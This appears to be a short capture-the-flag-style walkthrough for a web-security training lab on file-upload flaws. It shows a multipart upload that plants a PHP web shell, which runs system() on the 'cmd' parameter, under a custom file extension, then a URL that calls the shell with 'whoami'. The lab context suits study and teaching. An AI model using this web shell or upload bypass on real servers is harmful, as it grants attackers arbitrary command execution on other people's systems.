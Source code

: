 ![img](media/661a3c52f188eefc45e1047832e35b8f.png)

Upload cmdshell:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="cmd.l33t"
Content-Type: application/octet-stream

<?php
if($_GET['cmd']) {
  system($_GET['cmd']);
}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://0a6000ce04de65cfc3e8c5ac00d700ed.web-security-academy.net/files/avatars/cmd.l33t?cmd=whoami
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
